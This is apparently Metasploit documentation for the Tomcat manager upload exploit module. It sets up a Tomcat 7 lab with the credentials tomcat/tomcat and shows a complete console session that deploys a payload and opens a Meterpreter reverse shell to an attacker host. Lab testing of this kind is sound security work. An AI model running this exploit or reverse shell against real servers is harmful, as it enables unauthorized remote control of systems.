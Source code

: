 #### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.73/bin/apache-tomcat-7.0.73.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 7.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

```xml
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

2. Restart the service if a user was added/changed

3. Exploitation:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > set rport 8087
rport => 8087
msf exploit(tomcat_mgr_upload) > check
[*] 192.168.2.108:8087 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying vm5yNsROSQ...
[*] Executing vm5yNsROSQ...
[*] Undeploying vm5yNsROSQ ...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.108:3427) at 2017-01-15 19:25:22 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```
